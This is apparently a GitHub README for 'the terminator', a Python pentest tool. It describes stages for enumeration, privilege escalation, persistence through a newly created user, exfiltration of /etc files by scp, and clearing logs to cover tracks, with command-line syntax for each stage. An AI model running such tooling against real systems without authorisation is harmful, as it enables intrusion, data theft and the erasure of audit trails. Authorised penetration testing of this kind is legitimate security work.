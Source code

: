# the terminator
+++ a tool for automating simple methods for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

# contents
the terminator automates every stage of pentesting except initial exploitation (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)
- terminator.py - tool for automating simple methods for enumeration, privilege escalation, persistence, exfiltration, and reporting

you can also use the individual scripts instead of terminator.py (which contains all of these by itself)
- enum.py - script for automating common enumeration techniques (nmap,web,ftp,smb,nfs)
- priv.py - script to automate common privelege escalation techniques
- pers.py - script for establishing persistence on compromised target machine with root permissions.
- exfil.py - script for writing system data and /etc files to file, scp the file to local machine, and covers tracks by clearing logs.
- report.py - script to compile pentest data from the above scripts and create a report with it

# how to use
terminator.py is used by itself and is comprised of enum.py, exfil.py, priv.py, pers.py, and report.py. 
for this reason, you can either use terminator.py by itself, or use each of the other scripts individually. because terminator only automates the most common and simple penetration testing procedures, you will still need to put in some manual work if terminator is not successful. this tool is simply to speed up and automate the simple tasks.

- clone the repository to your computer with "git clone https://github.com/suffs811/the-terminator.git"
- if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration (see terminator source code for details)

<>note: for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine, second time on the target machine after gaining initial shell, third time on target machine after gaining root privileges, and fourth time on your local machine to compile report.

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

# syntax
(stage 1-enumerating target from local machine):
- python3 terminator.py enum -t <target_ip_to_enumerate>
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- python3 terminator.py priv

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- python3 terminator.py report -o <output_file_name>

local machine = your own machine

-+- Leave a comment if you have any questions! -+-
